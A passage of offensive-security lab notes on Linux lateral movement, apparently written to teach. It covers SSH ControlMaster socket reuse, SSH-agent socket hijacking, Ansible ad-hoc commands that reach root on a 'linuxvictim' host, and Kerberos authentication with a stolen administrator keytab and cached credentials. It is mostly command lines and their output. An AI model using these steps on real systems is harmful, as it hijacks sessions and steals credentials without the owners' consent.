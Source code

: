 Connect

```
ssh -S /home/offsec/.ssh/controlmaster/offsec@192.168.83.45\:22 offsec@192.168.83.45
```

#### SSH-Agent Pivot

Grab the connection's PID with `ps` or `ptrace`

```
# sets attacker's current privileged user’s SSH_AUTH_SOCK
SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh-add -l

SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh offsec@linuxvictim
```

### Linux Ansible

#### Ad-hoc Commands

```
ansibleadm@controller:~$ ansible victims -a "whoami"
linuxvictim | CHANGED | rc=0 >>
ansibleadm

ansibleadm@controller:~$ ansible victims -a "hostname"
linuxvictim | CHANGED | rc=0 >>
linuxvictim

ansibleadm@controller:~$ ansible victims -a "whoami" --become
linuxvictim | CHANGED | rc=0 >>
root
```

### Linux Kerberos

#### Keytab

Keytab files contain the Kerberos principal name and encrypted keys. They allow for a script or user to auth to Kerberos without a password. Commonly used in cron jobs. 

Steal keytab

```
kinit administrator@CORP1.COM -k -t /tmp/administrator.keytab
```

#### Credential Cache File Basics

Search for credential cache file

```
env | grep KRB5CCNAME
```

Request a Kerberos ticket-granting-ticket (TGT)
